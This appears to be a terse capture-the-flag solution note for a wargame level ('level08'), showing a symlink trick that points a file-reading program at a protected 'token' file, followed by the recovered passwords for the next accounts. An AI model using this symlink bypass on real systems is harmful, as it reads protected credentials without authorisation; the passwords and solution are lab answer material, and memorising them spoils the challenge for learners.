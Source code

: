 


ln -s /home..../token /tmp/tt

./level08 /tmp/tt

su - flag08
quif5eloekouj29ke0vouxean

su - level09
25749xKZ8L7DkSCwJkT9dyv6f


